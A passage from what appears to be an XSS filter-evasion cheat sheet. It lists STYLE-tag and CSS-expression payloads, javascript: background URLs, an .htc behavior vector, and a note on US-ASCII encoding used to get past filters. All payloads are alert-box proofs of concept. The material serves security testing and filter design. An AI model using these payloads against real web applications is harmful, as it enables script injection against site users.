 ### STYLE Tags with Broken-up JavaScript for XSS

This XSS at times sends IE into an infinite loop of alerts:

`<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>`

### STYLE Attribute using a Comment to Break-up Expression

Created by Roman Ivanov

`<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">`

### IMG STYLE with Expression

This is really a hybrid of the above XSS vectors, but it really does show how hard STYLE tags can be to parse apart, like above this can send IE into a loop:

```
exp/*<A STYLE='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'>
```

### STYLE Tag (Older versions of Netscape only)

`<STYLE TYPE="text/javascript">alert('XSS');</STYLE>`

### STYLE Tag using Background-image

`<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>`

### STYLE Tag using Background

`<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>`
`<STYLE type="text/css">BODY{background:url("<javascript:alert>('XSS')")}</STYLE>`

### Anonymous HTML with STYLE Attribute

IE6.0 and Netscape 8.1+ in IE rendering engine mode don't really care if the HTML tag you build exists or not, as long as it starts with an open angle bracket and a letter:

`<XSS STYLE="xss:expression(alert('XSS'))">`

### Local htc File

This is a little different than the above two cross site scripting vectors because it uses an .htc file which must be on the same server as the XSS vector. The example file works by pulling in the JavaScript and running it as part of the style attribute:

`<XSS STYLE="behavior: url(xss.htc);">`

### US-ASCII Encoding

US-ASCII encoding (found by Kurt Huwig).This uses malformed ASCII encoding with 7 bits instead of 8. This XSS may bypass many content filters but only works if the host transmits in US-ASCII encoding, or if you set the encoding yourself. This is more useful against web application firewall cross site scripting evasion than it is server side filter evasion. Apache Tomcat is the only known server that transmits in US-ASCII encoding.
